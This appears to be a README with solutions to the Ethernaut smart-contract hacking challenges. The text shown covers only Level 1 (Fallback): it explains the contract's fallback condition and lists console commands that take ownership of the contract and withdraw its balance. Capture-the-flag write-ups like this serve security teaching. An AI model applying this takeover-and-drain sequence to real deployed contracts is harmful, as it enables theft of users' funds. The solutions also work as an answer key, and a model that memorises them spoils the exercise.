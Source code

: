 # EthernautChallenges
The following are the solutions to the Ethernaut Challenges. For a detailed walkthrough please have a look at the videos :
https://www.youtube.com/channel/UCCk-bj8IXoWDLzu7Hjf3GLQ

As mentioned in the Solidity documentation : "When deploying contracts, you should use the latest released version of Solidity. This is because breaking changes as well as new features and bug fixes are introduced regularly."
-> please try to use the latest version

Here are some useful links:
* [Nicole Zhu's Walkthrough](https://hackernoon.com/ethernaut-lvl-0-walkthrough-abis-web3-and-how-to-abuse-them-d92a8842d71b)
* [OpenZeppelin Forum](https://forum.openzeppelin.com/t/ethernaut-community-solutions/561)
* [Solidity documentation](https://solidity.readthedocs.io/en/latest/)
* [Ethereum Yellow Paper](https://ethereum.github.io/yellowpaper/paper.pdf)


# Solution:
## Level 1 Fallback:
Solidity documentation release 0.6.4 :
"A contract can have at most one fallback function, declared using fallback () external [payable] (without the function keyword). This function cannot have arguments, cannot return anything and must have external visibility. It is executed on a call to the contract if none of the other functions match the given function signature, or if no data was supplied at all and there is no receive Ether function. The fallback function always receives data, but in order to also receive Ether it must be marked payable." p. 99

"msg.value (uint): number of wei sent with the message" p. 73

In the case of this contract, in order to execute the fallback function we need to pass the required condition: 
require (msg.value > 0 && contributions[msg.sender] > 0)
 
Therefore, before calling the fallback function with an amount attached to it, we also need to increase our 
contributions (using the contribute() function). Once that’s done we will become the new owner of the contract. 
We can then use the withdraw() function to reduce its balance to 0.

We will solve this challenge using the following command in the console (can be access by clickin F12):
        *await contract.owner()*<br/>
        *player*<br/>
	*await contract.contributions(player)*<br/>
	*await contract.contribute({value:1})*<br/>
	*await contract.contributions(player)*<br/>
	*await contract.sendTransaction({value:1})*<br/>
	*await contract.owner()*<br/>
	*player*<br/>
	*await contract.withdraw()*<br/>
